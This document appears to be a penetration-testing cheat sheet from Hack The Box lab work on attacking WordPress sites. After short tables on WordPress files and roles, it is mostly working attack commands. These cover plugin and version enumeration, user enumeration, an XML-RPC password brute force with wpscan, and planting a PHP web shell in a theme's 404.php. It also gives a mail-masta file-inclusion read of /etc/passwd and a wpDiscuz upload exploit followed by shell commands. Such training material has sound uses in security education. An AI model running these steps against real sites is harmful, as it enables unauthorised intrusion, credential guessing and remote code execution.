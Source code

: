 ## Info

```
L3pr3ch4un@htb[/htb]$ tree -L 1 /var/www/html
.
├── index.php
├── license.txt
├── readme.html
├── wp-activate.php
├── wp-admin
├── wp-blog-header.php
├── wp-comments-post.php
├── wp-config.php
├── wp-config-sample.php
├── wp-content
├── wp-cron.php
├── wp-includes
├── wp-links-opml.php
├── wp-load.php
├── wp-login.php
├── wp-mail.php
├── wp-settings.php
├── wp-signup.php
├── wp-trackback.php
└── xmlrpc.php
```

| File/Directory | Description |
| --- | --- |
| index.php | Homepage of WordPress. |
| license.txt | Contains useful information such as the version of WordPress installed. |
| wp-activate.php | Used for the email activation process when setting up a new WordPress site. |
| wp-admin | Folder containing the login page for administrator access and the backend dashboard. Login paths: /wp-admin/login.php, /wp-admin/wp-login.php, /login.php, /wp-login.php. This file can be renamed for security. |
| xmlrpc.php | File representing a feature of WordPress that enables data transmission using HTTP and XML. Replaced by the WordPress REST API. |
| wp-config.php | Configuration file containing database connection details, authentication keys, salts, and other settings. Can activate DEBUG mode for troubleshooting. |
| wp-content | Main directory for storing plugins and themes. The uploads/ subdirectory typically stores uploaded files. |
| wp-includes | Directory containing core files such as certificates, fonts, JavaScript files, and widgets. Excludes administrative components and themes. |

| Role | Description |
| --- | --- |
| Administrator | This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as editing source code. |
| Editor | An editor can publish and manage posts, including the posts of other users. |
| Author | Authors can publish and manage their own posts. |
| Contributor | These users can write and manage their own posts but cannot publish them. |
| Subscriber | These are normal users who can browse posts and edit their profiles. |




## Enumeration 

**Version Fingerprinting**

`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'`

```
# Search for JavaScript files with version parameters
curl -s https://your-wordpress-site.com | grep -Eo 'src="[^"]+\.js\?ver=[^"]+"'

# Search for CSS files with version parameters
curl -s https://your-wordpress-site.com | grep -Eo 'href="[^"]+\.css\?ver=[^"]+"'
```

**Themes and Plugins**

`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2`

`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2`

`L3pr3ch4un@htb[/htb]$ curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta`

If the content does not exist, we will receive a 404 Not Found error.

**Directory indexing**

`L3pr3ch4un@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta/ | html2text`





**Wpscan**

`L3pr3ch4un@htb[/htb]$ sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>`

**Enumerate Users**

`L3pr3ch4un@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php`

`wpscan –url http://example.com –enumerate u`
Api:*/wp-json/wp/v2/users*

**Password Brute force**

`L3pr3ch4un@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://94.237.62.195:37110`

**Code Execution**

**Note: Use Alternative theme like  Twenty Nineteen**

`Appearence`>`Theme Editor`>`404.php`>`system($_GET[0]);`

```
L3pr3ch4un@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
`msf6 > use exploit/unix/webapp/wp_admin_shell_upload`

## Vulnerabilities

**Note:** We can use the waybackurls tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.

**Vulnerable Plugins - mail-masta**

`L3pr3ch4un@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

**Vulnerable Plugins - wpDiscuz**

`version number (7.0.4)`

https://www.exploit-db.com/exploits/49967

`L3pr3ch4un@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1`

`L3pr3ch4un@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id`

